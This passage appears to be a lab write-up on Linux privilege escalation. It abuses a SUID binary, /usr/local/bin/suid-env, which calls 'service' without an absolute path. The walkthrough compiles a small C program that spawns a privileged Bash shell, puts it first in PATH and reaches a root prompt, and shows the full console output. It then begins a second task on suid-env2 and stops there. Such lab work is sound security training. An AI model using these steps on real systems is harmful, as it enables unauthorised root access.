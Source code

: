 The ````/usr/local/bin/suid-env```` executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.


Run strings on the file to look for strings of printable characters: ```strings /usr/local/bin/suid-env```.  One line ("service apache2 start") suggests that the service executable is being called to start the webserver, **however the full path of the executable (/usr/sbin/service) is not being used.**


Compile the code located at ```/home/user/tools/suid/service.c``` into an executable called service. [This](spawn_bash.c) code simply spawns a Bash shell: ```gcc -o service /home/user/tools/suid/service.c```


Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell: ```PATH=.:$PATH /usr/local/bin/suid-env```. 

```console
user@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
user@debian:~$ cat /home/user/tools/suid/service.c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
user@debian:~$ gcc -o service /home/user/tools/suid/service.c
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~#
```

# [Task 14] SUID / SGID Executables - Abusing Shell Features (#1)
```console
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.
